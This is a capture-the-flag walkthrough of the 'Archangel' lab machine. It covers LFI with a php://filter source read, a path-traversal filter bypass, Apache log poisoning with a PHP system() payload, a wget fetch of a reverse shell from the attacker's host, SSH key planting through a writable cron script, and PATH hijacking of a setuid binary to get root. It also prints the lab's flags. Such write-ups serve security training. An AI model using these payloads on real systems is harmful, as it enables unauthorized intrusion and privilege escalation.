

# Archangel

Boot2root, Web exploitation, Privilege escalation, LFI

# Get a shell

## Services

Nmap reveals 2 running services:

~~~
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9f:1d:2c:9d:6c:a4:0e:46:40:50:6f:ed:cf:1c:f3:8c (RSA)
|   256 63:73:27:c7:61:04:25:6a:08:70:7a:36:b2:f2:84:0d (ECDSA)
|_  256 b6:4e:d2:9c:37:85:d6:76:53:e8:c4:e0:48:1c:ae:6c (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Wavefire
~~~

## Find a different hostname

Connecting to the web service will reveal a mail address (`support@mafialive.thm`) which discloses a domain: `mafialive.thm`

~~~
kali@kali:/data/Archangel$ curl -s 10.10.93.69 | grep ".thm"
          <div class="block clear"><a href="#"><i class="fas fa-envelope"></i></a> <span><strong>Send us a mail:</strong> support@mafialive.thm</span></div>
~~~

Let's add the domain to the `hosts` file:

~~~
$ echo "10.10.93.69 mafialive.thm" | sudo tee -a /etc/hosts
~~~

## Find flag 1

Browsing the home page of this domain will reveal the first flag:

~~~
kali@kali:/data/Archangel$ curl -s http://mafialive.thm/
<h1>UNDER DEVELOPMENT</h1>

thm{f0und_th3_r1ght_h0st_n4m3}
~~~

## Look for a page under development

Checking the `robots.txt` file will reveal a hidden resource: `test.php`:

~~~
kali@kali:/data/Archangel$ curl -s http://mafialive.thm/robots.txt
User-agent: *
Disallow: /test.php
~~~

Answer: `test.php`

## Find flag 2

Follow the link on the page to discover that the `test.php` page accepts a parameter:

~~~
kali@kali:/data/Archangel$ curl -s http://mafialive.thm/test.php?view=/var/www/html/development_testing/mrrobot.php
	
<!DOCTYPE HTML>
<html>

<head>
    <title>INCLUDE</title>
    <h1>Test Page. Not to be Deployed</h1>
 
    </button></a> <a href="/test.php?view=/var/www/html/development_testing/mrrobot.php"><button id="secret">Here is a button</button></a><br>
        Control is an illusion    </div>
</body>

</html>
~~~

It is obvious that we have to deal with a Local File Inclusion (LFI). Unfortunately, it seems we can't read the code in `test.php`, probably due to a protection in the script.

~~~
kali@kali:/data/Archangel$ curl -s http://mafialive.thm/test.php?view=/var/www/html/development_testing/test.php
	
<!DOCTYPE HTML>
<html>

<head>
    <title>INCLUDE</title>
    <h1>Test Page. Not to be Deployed</h1>
 
    </button></a> <a href="/test.php?view=/var/www/html/development_testing/mrrobot.php"><button id="secret">Here is a button</button></a><br>
~~~

Hopefully, using `php://filter` allows to bypass the protection and we are able to encode the file as a base64 string:

~~~
kali@kali:/data/Archangel$ curl -s http://mafialive.thm/test.php?view=php://filter/convert.base64-encode/resource=/var/www/html/development_testing/test.php
	
<!DOCTYPE HTML>
<html>

<head>
    <title>INCLUDE</title>
    <h1>Test Page. Not to be Deployed</h1>
 
    </button></a> <a href="/test.php?view=/var/www/html/development_testing/mrrobot.php"><button id="secret">Here is a button</button></a><br>
        CQo8IURPQ1RZUEUgSFRNTD4KPGh0bWw+Cgo8aGVhZD4KICAgIDx0aXRsZT5JTkNMVURFPC90aXRsZT4KICAgIDxoMT5UZXN0IFBhZ2UuIE5vdCB0byBiZSBEZXBsb3llZDwvaDE+CiAKICAgIDwvYnV0dG9uPjwvYT4gPGEgaHJlZj0iL3Rlc3QucGhwP3ZpZXc9L3Zhci93d3cvaHRtbC9kZXZlbG9wbWVudF90ZXN0aW5nL21ycm9ib3QucGhwIj48YnV0dG9uIGlkPSJzZWNyZXQiPkhlcmUgaXMgYSBidXR0b248L2J1dHRvbj48L2E+PGJyPgogICAgICAgIDw/cGhwCgoJICAgIC8vRkxBRzogdGhte2V4cGxvMXQxbmdfbGYxfQoKICAgICAgICAgICAgZnVuY3Rpb24gY29udGFpbnNTdHIoJHN0ciwgJHN1YnN0cikgewogICAgICAgICAgICAgICAgcmV0dXJuIHN0cnBvcygkc3RyLCAkc3Vic3RyKSAhPT0gZmFsc2U7CiAgICAgICAgICAgIH0KCSAgICBpZihpc3NldCgkX0dFVFsidmlldyJdKSl7CgkgICAgaWYoIWNvbnRhaW5zU3RyKCRfR0VUWyd2aWV3J10sICcuLi8uLicpICYmIGNvbnRhaW5zU3RyKCRfR0VUWyd2aWV3J10sICcvdmFyL3d3dy9odG1sL2RldmVsb3BtZW50X3Rlc3RpbmcnKSkgewogICAgICAgICAgICAJaW5jbHVkZSAkX0dFVFsndmlldyddOwogICAgICAgICAgICB9ZWxzZXsKCgkJZWNobyAnU29ycnksIFRoYXRzIG5vdCBhbGxvd2VkJzsKICAgICAgICAgICAgfQoJfQogICAgICAgID8+CiAgICA8L2Rpdj4KPC9ib2R5PgoKPC9odG1sPgoKCg==    </div>
</body>

</html>
~~~

Let's decode the content:

~~~
kali@kali:/data/Archangel$ echo "CQo8IURPQ1RZUEUgSFRNTD4KPGh0bWw+Cgo8aGVhZD4KICAgIDx0aXRsZT5JTkNMVURFPC90aXRsZT4KICAgIDxoMT5UZXN0IFBhZ2UuIE5vdCB0byBiZSBEZXBsb3llZDwvaDE+CiAKICAgIDwvYnV0dG9uPjwvYT4gPGEgaHJlZj0iL3Rlc3QucGhwP3ZpZXc9L3Zhci93d3cvaHRtbC9kZXZlbG9wbWVudF90ZXN0aW5nL21ycm9ib3QucGhwIj48YnV0dG9uIGlkPSJzZWNyZXQiPkhlcmUgaXMgYSBidXR0b248L2J1dHRvbj48L2E+PGJyPgogICAgICAgIDw/cGhwCgoJICAgIC8vRkxBRzogdGhte2V4cGxvMXQxbmdfbGYxfQoKICAgICAgICAgICAgZnVuY3Rpb24gY29udGFpbnNTdHIoJHN0ciwgJHN1YnN0cikgewogICAgICAgICAgICAgICAgcmV0dXJuIHN0cnBvcygkc3RyLCAkc3Vic3RyKSAhPT0gZmFsc2U7CiAgICAgICAgICAgIH0KCSAgICBpZihpc3NldCgkX0dFVFsidmlldyJdKSl7CgkgICAgaWYoIWNvbnRhaW5zU3RyKCRfR0VUWyd2aWV3J10sICcuLi8uLicpICYmIGNvbnRhaW5zU3RyKCRfR0VUWyd2aWV3J10sICcvdmFyL3d3dy9odG1sL2RldmVsb3BtZW50X3Rlc3RpbmcnKSkgewogICAgICAgICAgICAJaW5jbHVkZSAkX0dFVFsndmlldyddOwogICAgICAgICAgICB9ZWxzZXsKCgkJZWNobyAnU29ycnksIFRoYXRzIG5vdCBhbGxvd2VkJzsKICAgICAgICAgICAgfQoJfQogICAgICAgID8+CiAgICA8L2Rpdj4KPC9ib2R5PgoKPC9odG1sPgoKCg==" | base64 -d
	
<!DOCTYPE HTML>
<html>

<head>
    <title>INCLUDE</title>
    <h1>Test Page. Not to be Deployed</h1>
 
    </button></a> <a href="/test.php?view=/var/www/html/development_testing/mrrobot.php"><button id="secret">Here is a button</button></a><br>
        <?php

	    //FLAG: thm{explo1t1ng_lf1}

            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
	    if(isset($_GET["view"])){
	    if(!containsStr($_GET['view'], '../..') && containsStr($_GET['view'], '/var/www/html/development_testing')) {
            	include $_GET['view'];
            }else{

		echo 'Sorry, Thats not allowed';
            }
	}
        ?>
    </div>
</body>

</html>
~~~

The flag appears as a comment in the page.

Answer: `thm{explo1t1ng_lf1}`

## Get a shell and find the user flag

The code is checking that the 2 below conditions are met about the injected content:

* it should not contain `../..`
* it should contain `/var/www/html/development_testing`

We can bypass the path traversal protection by replacing `../..` with `.././..`, as follows:

~~~
kali@kali:/data/Archangel$ curl -s http://mafialive.thm/test.php?view=/var/www/html/development_testing/.././.././../log/apache2/access.log
	
<!DOCTYPE HTML>
<html>

<head>
    <title>INCLUDE</title>
    <h1>Test Page. Not to be Deployed</h1>
 
    </button></a> <a href="/test.php?view=/var/www/html/development_testing/mrrobot.php"><button id="secret">Here is a button</button></a><br>
        
10.8.50.72 - - [25/Apr/2021:23:15:47 +0530] "GET / HTTP/1.1" 200 3888 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0"
10.8.50.72 - - [25/Apr/2021:23:15:48 +0530] "GET /layout/styles/layout.css HTTP/1.1" 200 4953 "http://archangel.thm/" "Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0"

[REDACTED]

10.8.50.72 - - [25/Apr/2021:23:52:40 +0530] "GET /test.php?view=php://filter/convert.base64-encode/resource=/proc/self/environ HTTP/1.1" 200 482 "-" "curl/7.72.0"
10.8.50.72 - - [26/Apr/2021:00:04:55 +0530] "GET /test.php?view=/var/www/html/development_testing/..%2F..%2F../proc/self/environ HTTP/1.1" 200 482 "-" "curl/7.72.0"
10.8.50.72 - - [26/Apr/2021:00:06:59 +0530] "GET /test.php?view=/var/www/html/development_testing/.././.././../proc/self/environ HTTP/1.1" 200 458 "-" "curl/7.72.0"
10.8.50.72 - - [26/Apr/2021:00:07:10 +0530] "GET /test.php?view=/var/www/html/development_testing/.././.././.././proc/self/environ HTTP/1.1" 200 458 "-" "curl/7.72.0"
10.8.50.72 - - [26/Apr/2021:00:07:15 +0530] "GET /test.php?view=/var/www/html/development_testing/.././.././.././../proc/self/environ HTTP/1.1" 200 458 "-" "curl/7.72.0"
    </div>
</body>

</html>
~~~

We'll now poison the apache2 log file by injecting a PHP payload in the user-agent string as follows:



Now, let's download a PHP reverse shell. Start by hosting it locally (`python3 -m http.server`) and download it by sending the following request in BurpSuite Repeater

~~~
GET /test.php?view=/var/www/html/development_testing/.././.././../log/apache2/access.log&cmd=wget%20http://10.8.**.**:8000/rev.php HTTP/1.1
Host: mafialive.thm
User-Agent: <?php system($_GET['cmd']); ?>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
~~~

Now, call the reverse shell on the server by browsing http://mafialive.thm/rev.php. We now have a reverse shell:

~~~
kali@kali:/data/Archangel/files$ rlwrap nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.8.50.72] from (UNKNOWN) [10.10.99.3] 49310
Linux ubuntu 4.15.0-123-generic #126-Ubuntu SMP Wed Oct 21 09:40:11 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 12:07:02 up 26 min,  0 users,  load average: 0.00, 0.03, 0.23
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c "import pty;pty.spawn('/bin/bash')"
www-data@ubuntu:/$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
~~~

User flag:

~~~
www-data@ubuntu:/$ cat /home/archangel/user.txt
cat /home/archangel/user.txt
thm{lf1_t0_rc3_1s_tr1cky}
~~~

# Root the machine

## Get User 2 flag 

There is a cronjob (`/opt/helloworld.sh`) executed by `archangel` every minute:

~~~
www-data@ubuntu:/etc/cron.weekly$ cat /etc/crontab
cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
*/1 *   * * *   archangel /opt/helloworld.sh
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
~~~

And the script is writable to us:

~~~
www-data@ubuntu:/opt$ ls -la
ls -la
total 16
drwxrwxrwx  3 root      root      4096 Nov 20 10:35 .
drwxr-xr-x 22 root      root      4096 Nov 16 15:39 ..
drwxrwx---  2 archangel archangel 4096 Nov 20 15:04 backupfiles
-rwxrwxrwx  1 archangel archangel   66 Nov 20 10:35 helloworld.sh
www-data@ubuntu:/opt$ cat helloworld.sh
cat helloworld.sh
#!/bin/bash
echo "hello world" >> /opt/backupfiles/helloworld.txt
~~~

Let's replace the content by the following script:

```bash
#!/bin/bash
mkdir -p /home/archangel/.ssh
echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDg/KqsSvn87pqIqbPzKOHSyh44AqimIva8sBw3F+EBUigLb3xjbKs9SBLbloL7M5VuzZwM+bL2i1vJPNtUMZAbJ+hzEY9ijQEWopKgDEuR3zCDd6r5St+QDqqH/14yAzEZqBa6+eURx9kfYsKKaCoue1b7LCaXaO6JYA1s4UIIF+xUeUzJw3nxw5TzbvkCtamYKIpTvUu7tQQLpNw+em58FcYj4ciIUoDxBI6VpnmY06JbGoyphrsRTVW4kRTO0eSEcrrGFVOqbbLmWWhI2gQcHL2nUTcIfSxLGKD3ave5tlCdd8mRmZr5BP/m4BCS21qS9owAt/6tgeZspQ2lVOBChcYlyLBf2TrNmZTEb3mA5EwQdepeIofOavp7bEt2SguEQbNL27MFgTkHrQgOT+aelB8IvjXuQRxTePoq+zdJ4TT1hN1trsLvplzJhLwR53s83bfR+TEDoy0DzoPNt9WKzoom9tL0P9esdePB2W9hX35IKZVtD53kcT6xDO+m7pk= kali@kali" >> /home/archangel/.ssh/authorized_keys
```

The easiest is to host the script locally, make it available with `python3 -m http.server`, download it on the server, move it to `/opt/helloworld.sh` and make it executable.

After a minute, we can connect as `archangel` and reveal the second flag:

~~~
kali@kali:/data/Archangel/files$ ssh archangel@mafialive.thm
Warning: Permanently added the ECDSA host key for IP address '10.10.231.1' to the list of known hosts.
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-123-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Last login: Fri Nov 20 15:21:35 2020
archangel@ubuntu:~$ ll
total 48
drwxr-xr-x 7 archangel archangel 4096 Apr 26 14:13 ./
drwxr-xr-x 3 root      root      4096 Nov 18 13:06 ../
-rw-r--r-- 1 archangel archangel  220 Nov 18 00:48 .bash_logout
-rw-r--r-- 1 archangel archangel 3771 Nov 18 00:48 .bashrc
drwx------ 2 archangel archangel 4096 Nov 18 13:08 .cache/
drwxrwxr-x 3 archangel archangel 4096 Nov 18 11:20 .local/
drwxr-xr-x 2 archangel archangel 4096 Nov 18 01:36 myfiles/
-rw-r--r-- 1 archangel archangel  807 Nov 18 00:48 .profile
drwxrwx--- 2 archangel archangel 4096 Nov 19 20:41 secret/
-rw-rw-r-- 1 archangel archangel   66 Nov 18 11:20 .selected_editor
drwxrwxr-x 2 archangel archangel 4096 Apr 26 14:13 .ssh/
-rw-r--r-- 1 archangel archangel   26 Nov 19 19:57 user.txt
archangel@ubuntu:~$ cd secret/
archangel@ubuntu:~/secret$ ll
total 32
drwxrwx--- 2 archangel archangel  4096 Nov 19 20:41 ./
drwxr-xr-x 7 archangel archangel  4096 Apr 26 14:13 ../
-rwsr-xr-x 1 root      root      16904 Nov 18 16:40 backup*
-rw-r--r-- 1 root      root         49 Nov 19 20:41 user2.txt
archangel@ubuntu:~/secret$ cat user2.txt 
thm{h0r1zont4l_pr1v1l3g3_2sc4ll4t10n_us1ng_cr0n}
~~~

Answer: `thm{h0r1zont4l_pr1v1l3g3_2sc4ll4t10n_us1ng_cr0n}`

## Root the machine and find the root flag

The secret directory contains an interesting `backup` script that has the `SETUID` bit set. Using `strings`, we can see that the `cp` command is called to copy files:

~~~
archangel@ubuntu:~/secret$ file backup 
backup: setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=9093af828f30f957efce9020adc16dc214371d45, for GNU/Linux 3.2.0, not stripped
archangel@ubuntu:~/secret$ strings backup 
/lib64/ld-linux-x86-64.so.2
setuid
system

[REDACTED]

cp /home/user/archangel/myfiles/* /opt/backupfiles

[REDACTED]
~~~

As the script is not using the full path of `cp`, we can leave our own `cp` program in the directory.

~~~
archangel@ubuntu:~/secret$ cat > cp << EOF
> #!/bin/bash
> /bin/bash -i
> EOF
archangel@ubuntu:~/secret$ chmod +x cp
archangel@ubuntu:~/secret$ export PATH=/home/archangel/secret:$PATH
~~~

Now, when we will execute the script, it will use our own `cp` command, which will execute a root shell:

~~~
archangel@ubuntu:~/secret$ ./backup 
root@ubuntu:~/secret# id
uid=0(root) gid=0(root) groups=0(root),1001(archangel)
root@ubuntu:~/secret# cd /root/
root@ubuntu:/root# ll
total 28
drwx------  4 root root 4096 Nov 20 15:22 ./
drwxr-xr-x 22 root root 4096 Nov 16 15:39 ../
-rw-r--r--  1 root root 3106 Apr  9  2018 .bashrc
drwx------  2 root root 4096 Nov 18 13:06 .cache/
drwxr-xr-x  3 root root 4096 Nov 16 19:27 .local/
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   68 Nov 19 19:59 root.txt
root@ubuntu:/root# cat root.txt 
thm{p4th_v4r1abl3_expl01tat1ion_f0r_v3rt1c4l_pr1v1l3g3_3sc4ll4t10n}
~~~

Root flag: `thm{p4th_v4r1abl3_expl01tat1ion_f0r_v3rt1c4l_pr1v1l3g3_3sc4ll4t10n}`
